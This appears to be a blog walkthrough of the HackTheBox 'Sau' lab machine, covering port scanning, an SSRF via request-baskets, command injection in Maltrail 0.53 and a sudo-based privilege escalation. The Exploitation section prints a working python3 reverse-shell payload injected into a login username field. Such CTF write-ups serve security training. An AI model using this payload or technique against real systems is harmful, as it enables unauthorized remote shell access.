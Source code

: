 ```yaml
---
layout: post
status: publish
published: true
title: Sau Machine 
author: horus
categories: [CTF]
tags: [CTF,HackTheBox,Easy]
comments: true
image: /assets/img/images/Sau.png
---
```


###     …  بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ  …


## Introduction : 
Hello, I hope you are doing well. HackTheBox has published a machine called `Sau`. It is an easy machine , and we will solve it today together. I hope you enjoy the walkthrough.

DIFFICULTY : `Easy` 

OPERATING SYSTEM : `Linux`

IP:`10.129.22.167`

## Improved Topics : 
- Enumeration
- ssrf

## Used tools : 
- nmap

---
## Enumeration : 

The first thing that i did it is scanning the machine using nmap to discover the open ports using this command `nmap -v -sC -sV -oA nmap.txt 10.129.22.167` i have found three ports are opened 
```
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```
i tried to visit the `80` port but it didn't give me a response , so i tried to visit the `55555` port and this interface showed up ![](/assets/img/images/Pasted%20image%2020230710054010.png)
i tried to search for CVES for `requests-baskets` and i didn't found any thing .

---
## Exploitation: 
i started testing the `create basket` function , i have entered a name then clicked create then i access the basket that i have created ![](/assets/img/images/Pasted%20image%2020230710091101.png)
i opened the configuration settings and i discovered that i can redirect the incoming request to the basket to another address so itried to put the local address with the port `80` that we discovered it early and cannot access it  ![](/assets/img/images/Pasted%20image%2020230710091406.png)
then i visited the basket link and it redirected me to the site with the port `80` .
the site was running by product called **M**altrail (v**0.53**) and have a login page 
![](/assets/img/images/Pasted%20image%2020230710101310.png)
then i searched for CVES for this product version and i have found that it is vulnerable with a command injection Vulnerability (https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

after i had read the report i copied the payload the edit on it to give me the reverse shell and this was the payload :
```sh
;`export RHOST="10.10.16.28";export RPORT=6666;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```
i have tried many payloads to get the reverse shell from this site [https://www.revshells.com/ ]
bug nothing worked for me except this python3 payload , then i putted this above payload in the username parameter and prepared my reverse shell receiver on my machine using this command `pwncat-cs -lp 4444` pwncat is very good tool to do this job 

after i have submitted the request i received the connection back from the targeted machine ![](/assets/img/images/Pasted%20image%2020230710095716.png)
then i have got the user flag 
![](/assets/img/images/Pasted%20image%2020230710095824.png)

---
## Privilege Escalation : 
the first thing i did it after i have gained the shell is trying to see what is the commands that i can execute by root privilege , to see this commands we need to execute this command `sudo -l`
![](/assets/img/images/Pasted%20image%2020230710100146.png)
i searched for this on google and i have found this tow articles 
(https://www.cybersecurity-help.cz/vdb/SB2023032869)
(https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)
i had read the articles , then i got in the shell to try to exploit this cve 
![](/assets/img/images/Pasted%20image%2020230710100646.png)
....We have got the root flag ladies and gentlemen .  
i hope you have enjoyed the Walkthrough